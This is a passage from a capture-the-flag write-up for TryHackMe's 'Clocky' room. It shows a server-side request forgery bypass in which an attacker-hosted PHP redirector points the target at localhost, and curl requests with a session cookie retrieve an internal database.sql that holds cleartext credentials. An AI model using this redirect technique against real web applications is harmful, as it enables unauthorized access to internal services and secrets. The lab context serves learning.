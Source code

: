 ```bash
                <input type="text" placeholder="Location" name="location" required><br>  
                <button type="submit">Download</button><br>
                Action not permitted<br>
            </div>   
        </form> 
        </center>    
    </body>     
    </html> 
```

We can bypass this filter by providing a URL that we control (10.10.46.31), which redirects to the target URL. To do this we can create a PHP file that when accessed redirects to the localhost IP address. Since we were denied access when we tried to access the web application running on port 80, let's try to access it locally by redirecting the target to `http://127.0.0.1/`
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Clocky/Misc File/php_server]
└─$ cat index.php     
<?php
 
// Redirect browser
$file=$_GET["filename"];
header("Location: http://127.0.0.1/" . $file);
 
exit;
?>

┌──(pentester㉿kali)-[~/…/Challenge/Clocky/Misc File/php_server]
└─$ php -S 0.0.0.0:8000
[Fri Oct 18 16:50:03 2024] PHP 8.2.21 Development Server (http://0.0.0.0:8000) started
```

After hosting this file in a simple PHP server, we can access it from the target. We can attempt to access a common page in a web application's root directory i.e. `index.html`
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ curl http://10.10.46.31:8080/dashboard -H "Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.ZxJ22g.93hnFnlxzd2drMkpiGKXKR83_08" -X POST -d 'location=http://10.21.68.180:8000/index.php?filename=index.html' 
<h2>Internal dev storage</h2>
```

We see that an output is returned. This web application appears to be an internal development storage. Remember that we enumerated a file named `database.sql` in the comments of the `app.py` file. Since we couldn't access it from the public IP address, we can try to accessing it locally. 
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ curl http://10.10.46.31:8080/dashboard -H "Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.ZxJ22g.93hnFnlxzd2drMkpiGKXKR83_08" -X POST -d 'location=http://10.21.68.180:8000/index.php?filename=database.sql' 

#################################################
#                                               #
# Flag 4: <REDACTED> #
#                                               #
#################################################

CREATE DATABASE IF NOT EXISTS clocky;
USE clocky;

CREATE USER IF NOT EXISTS 'clocky_user'@'localhost' IDENTIFIED BY '!WE_LOVE_CLEARTEXT_DB_PASSWORDS!';
GRANT ALL PRIVILEGES ON *.* TO 'clocky_user'@'localhost' WITH GRANT OPTION;

CREATE USER IF NOT EXISTS 'clocky_user'@'%' IDENTIFIED BY '<REDACTED>';
GRANT ALL PRIVILEGES ON *.* TO 'clocky_user'@'%' WITH GRANT OPTION;
```